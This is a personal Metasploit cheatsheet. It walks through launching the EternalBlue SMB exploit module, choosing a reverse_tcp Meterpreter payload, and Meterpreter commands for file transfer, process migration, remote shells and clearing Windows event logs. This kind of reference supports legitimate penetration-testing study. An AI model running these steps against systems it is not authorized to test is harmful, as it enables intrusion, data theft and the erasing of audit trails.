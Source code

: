 # Metasploit
*Personal cheatsheet*<br/> <br/>
## Basic commands
```help``` or ```?```<br/>
```search```&emsp;Search modules<br/>
```use```&emsp;Select a module<br/>
```info```&emsp;Display info about a specific module<br/>
```options```&emsp;List options you can set<br/>
```advanced```&emsp;Display advanced options for a specific module<br/>
```show```&emsp;Show options in a specific category<br/>
```connect <host> <port> -z``` to try to connect to a remote host, then return. To test its reachability<br/>
```spool <filepath>``` to save both commands and screen output of metasploit
## First steps w/ Metasploit
### ```Eternalblue```
```search eternalblue```<br/>
```use exploit/windows/smb/ms17_010_eternalblue``` to select the module<br/>
```show options```<br/>
```set``` to set a value to a module options<br/>
&nbsp;&nbsp;&nbsp;&nbsp;*ex:* ```set SMBPass username```<br/>
```setg``` to set a global value<br/>
```unset``` to change the value of a var. to "null"
```get``` to view tha value of single variables<br/>
```show payloads``` to list compatible payloads<br/>
```set PAYLOAD <index>``` to select the desired payload, ```index``` *being the id of the playload from* ```show payloads```<br/>
```exploit``` to run the exploit once you've configured all the desired options<br/>
```sessions``` to list all active sessions<br/>
```session -i <index>``` to go into interactive mode with a session, ```index``` *being the id of the session from* ```sessions```<br/>
### ```Meterpreter```
Once you've run an exploit, ideally it'll give you either a regular command shell or a meterpreter shell.<br/>
```meterpreter``` allows you to do various things to **interact w/ the machine**, cf. [Offensive Security](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/) for the complete list of cmds.<br/>
```download <filepath>``` to dl a file from the remote machine. *NB: you'll need to use **double slashes** for Windows environment*<br/>
```upload <local_file_location> <remote_file_location>``` to upload a file to the machine. *Just like download, you'll need to use **double slashes***<br/>
```ps``` to list **running process**.<br/>
```migrate [<new_pid>]``` is used to **"migrate" from the current process to another** process, *it's possible to specify the PID you'll like to migrate to by specifying it ```<new_pid```*<br/>
```ls``` list files in the current directory.<br/>
```execute``` to execute a command on the remote host.<br/>
```shell``` will start an interactive shell on the remote host.<br/>
```search``` to find files on the remote host.<br/>
```cat``` to display the content of a file.<br/>
```background``` will put your meterpreter shell in background, *to return to the meterpreter shell* ```session -i <session_id>```<br/>
```clearev``` will clear the **Application, System, and Security logs** on a **Windows system**.<br/>
```getuid``` will return the user we're currently connected as

<br/>
<br/>
## Usefulls modules / payloads
```set PAYLOAD windows/meterpreter/reverse_tcp``` very common reverse shell
```run post/windows/gather/checkvm``` to check if the remote host is running on a VM or not
